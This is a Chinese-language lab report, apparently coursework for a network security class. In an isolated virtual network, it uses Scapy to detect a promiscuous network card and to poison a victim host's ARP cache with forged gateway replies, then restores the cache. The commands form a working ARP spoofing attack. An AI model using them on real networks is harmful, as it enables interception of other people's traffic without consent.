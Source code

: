 # 网络监听

## 网络拓扑

![](imgs/map.png)

如图所示网络中的节点基本信息如下：

* 攻击者主机
    * 08:00:27:f1:cd:c3 / eth1
    * 172.16.111.101
* 受害者主机
    * 08:00:27:c8:63:67 / eth1
    * 172.16.111.107
* 网关
    * 08:00:27:80:25:2e / enp0s9 
    * 172.16.111.1

## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![](imgs/scapy_install.png)

## 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth1
```
(实验分两次做的，图片清晰度有些不一样)

![](imgs/promiscOff.png)

```bash
# 在攻击者主机上开启 scapy，不提升权限有些操作无法进行
sudo scapy
```
![](imgs/welcome.png)
```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.107")
```
![](imgs/1promsiping.png)
```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth1 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth1
```
![](imgs/promiscOn.png)

```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.107")
```
![](imgs/2promsiping.png)
```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

### 获取当前局域网的网关 MAC 地址
```python
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.0.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```
![](imgs/arpbroadcast.png)
```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```
![](imgs/mac.png)
### 伪造网关的 ARP 响应包
```bash
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.107", hwdst="08:00:27:f1:cd:c3")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
![](imgs/arpspoofed.PNG)
此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
```
![](imgs/success.png)
### 恢复受害者主机的 ARP 缓存记录
```python
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:80:25:2e", pdst="172.16.111.107", hwdst="08:00:27:c8:63:67")
sendp(restorepkt1, count=100, inter=0.2)
```
![](imgs/restore.PNG)
此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![](imgs/ping_gateway.PNG)
![](imgs/ac.PNG)
## 参考
- [黄大的课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [使用scapy模块编写ARP欺骗脚本 - OSChina](https://my.oschina.net/u/4580309/blog/4358219)
